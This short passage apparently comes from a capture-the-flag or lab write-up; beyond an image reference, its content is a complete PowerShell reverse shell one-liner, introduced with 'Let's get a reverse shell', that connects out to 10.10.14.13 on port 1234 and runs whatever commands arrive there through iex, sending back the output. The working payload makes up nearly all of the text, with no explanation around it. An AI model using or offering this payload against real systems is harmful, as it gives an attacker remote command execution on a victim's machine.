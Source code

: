 ![](img/Pasted%20image%2020210821151503.png)

Let's get a reverse shell :

```powershell 
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.13',1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
